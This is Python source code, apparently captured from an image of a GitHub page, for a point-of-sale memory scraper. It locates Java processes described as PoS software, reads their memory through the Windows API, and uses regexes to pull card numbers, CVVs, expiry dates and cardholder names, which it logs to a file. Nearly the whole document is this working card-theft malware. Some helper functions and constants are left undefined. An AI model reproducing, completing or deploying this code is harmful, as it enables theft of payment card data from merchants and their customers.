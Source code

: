 import re
import ctypes
import time
import threading
import logging
from queue import Queue
import psutil  # For scanning running processes

# Initialize memory queue and running flag
memory_queue = Queue()
running = True

# Regex patterns for card information
CARD_NUMBER_PATTERN = r'\b(?:\d[ -]*?){13,16}\b'  # Example pattern for 13-16 digit card numbers
CVV_PATTERN = r'\b\d{3,4}\b'  # Typical CVV pattern (3 or 4 digits)
EXPIRY_DATE_PATTERN = r'\b(0[1-9]|1[0-2])\/([0-9]{2})\b'  # Expiry date pattern (MM/YY)
NAME_PATTERN = r'[A-Z][a-z]+ [A-Z][a-z]+'  # Simple pattern for detecting names (First Last)

# Function to scan a memory chunk for card info
def scan_memory_chunk(memory_chunk):
    valid_cards = []
    
    # Search for potential card numbers
    card_numbers = re.findall(CARD_NUMBER_PATTERN, memory_chunk)
    
    for card_number in card_numbers:
        # Search for associated CVV, Expiry Date, and Name
        cvv = re.search(CVV_PATTERN, memory_chunk)
        expiry_date = re.search(EXPIRY_DATE_PATTERN, memory_chunk)
        name = re.search(NAME_PATTERN, memory_chunk)

        if card_number and cvv and expiry_date and name:
            card_info = {
                'Card Number': card_number,
                'Name': name.group(),
                'CVV': cvv.group(),
                'Expiry Date': expiry_date.group()
            }
            valid_cards.append(card_info)
    
    return valid_cards

# Worker thread that processes memory chunks for a specific process
def memory_scan_worker(process_handle, pid):
    while running:
        if memory_queue.empty():
            time.sleep(1)  # Avoid busy waiting
            continue
        
        base_addr, size = memory_queue.get()
        
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            # Check if the address is still valid and if we can read memory
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                print(f"[PID {pid}] Scanning memory region at address {base_addr} with size {size}")
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1', errors='ignore'))
                if valid_cards:
                    for card in valid_cards:
                        formatted_output = f"[PID {pid}] {card['Card Number']}:{card['Name']}:{card['CVV']}:{card['Expiry Date']}"
                        print(formatted_output)
                        logging.info(formatted_output)  # Log to file
                else:
                    print(f"[PID {pid}] No valid card data found in this memory region.")
            else:
                # Handle the case where ReadProcessMemory fails
                logging.warning(f"[PID {pid}] Failed to read memory at {base_addr}: Address may not be valid or accessible.")
                print(f"[PID {pid}] Failed to read memory at address {base_addr}.")
        except Exception as e:
            logging.error(f"[PID {pid}] Error reading memory at {base_addr}: {e}")
            print(f"[PID {pid}] Error reading memory at address {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Function to automatically detect PIDs of relevant processes (e.g., javaw.exe)
def get_relevant_pids():
    relevant_pids = []
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for processes that might be related to PoS software
            if proc.info['name'] in ['javaw.exe', 'java.exe']:  # Add other relevant names here if needed
                print(f"Detected relevant process: {proc.info['name']} (PID: {proc.info['pid']})")
                relevant_pids.append(proc.info['pid'])
        except (psutil.NoSuchProcess, psutil.AccessDenied, psutil.ZombieProcess):
            continue
    return relevant_pids

# Main function to scan memory of automatically detected processes
def scan_process_memory(num_threads=4):
    pids = get_relevant_pids()
    
    if not pids:
        print("No relevant processes found.")
        return

    for pid in pids:
        print(f"Starting memory scan for PID {pid}")
        memory_regions = get_memory_regions(pid)
        if not memory_regions:
            print(f"[PID {pid}] No valid memory regions found.")
            continue

        process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not process_handle:
            logging.error(f"[PID {pid}] Could not open process.")
            print(f"[PID {pid}] Could not open process.")
            continue

        # Start threads for each process
        threads = []
        for _ in range(num_threads):
            t = threading.Thread(target=memory_scan_worker, args=(process_handle, pid))
            t.daemon = True  # Allow threads to exit when the main program does
            t.start()
            threads.append(t)

        try:
            while running:
                # Keep scanning new memory regions in a loop
                new_memory_regions = get_memory_regions(pid)
                for region in new_memory_regions:
                    print(f"[PID {pid}] Adding memory region to queue: {region}")
                    memory_queue.put(region)

                time.sleep(5)  # Delay between scans to reduce CPU usage

        except KeyboardInterrupt:
            print(f"Stopping the memory scan for PID {pid}...")
        finally:
            for t in threads:
                t.join()
            ctypes.windll.kernel32.CloseHandle(process_handle)

    print("All memory scans completed.")

# Example usage
if __name__ == "__main__":
    logging.basicConfig(level=logging.INFO, filename='memory_scan.log', filemode='a', format='%(asctime)s - %(message)s')

    # Start scanning memory for relevant processes
    scan_process_memory(num_threads=4)
